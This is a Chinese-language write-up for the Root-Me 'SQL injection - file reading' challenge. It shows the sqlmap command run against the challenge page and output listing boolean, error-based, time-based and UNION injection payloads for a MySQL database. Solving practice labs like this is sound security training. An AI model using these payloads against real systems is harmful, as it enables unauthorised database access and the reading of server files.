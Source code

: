 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[SQL injection - file reading](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-file-reading)] [[解题报告](http://exp-blog.com/2019/03/17/pid-3597/)]

------


## 找到注入点

利用 SQL 注入读取服务器文件。

首先要找到注入点，为了提高效率可以直接使用 sqlmap ，测试发现注入点在这个页面：

[http://challenge01.root-me.org/web-serveur/ch31/?action=members&id=1](http://challenge01.root-me.org/web-serveur/ch31/?action=members&id=1)

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B49%5D%20%5B40P%5D%20SQL%20injection%20-%20file%20reading/imgs/01.png)

通过 sqlmap 扫描发现这是 **MySQL** 数据库，且此处同时存在 4 个注入漏洞：

- 基于布尔注入
- 基于错误注入
- 基于延时注入
- UNION 横向越权（**只有这个漏洞可以用于文件读取**）

```shell
S:\04_work\BurpSuite>sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch31/?action=members&id=1"
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.3.3.23#dev}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:56:34 /2019-03-17/

[21:56:34] [INFO] resuming back-end DBMS 'mysql'
[21:56:34] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: action=members&id=1 AND 5971=5971

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: action=members&id=1 AND (SELECT 6075 FROM(SELECT COUNT(*),CONCAT(0x7178627171,(SELECT (ELT(6075=6075,1))),0x716a627671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: action=members&id=1 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: action=members&id=-8544 UNION ALL SELECT NULL,CONCAT(0x7178627171,0x5978584957435676765770754d7146467161426b7448577759637646646a44457458776c4975444b,0x716a627671),NULL,NULL-- TLgI
```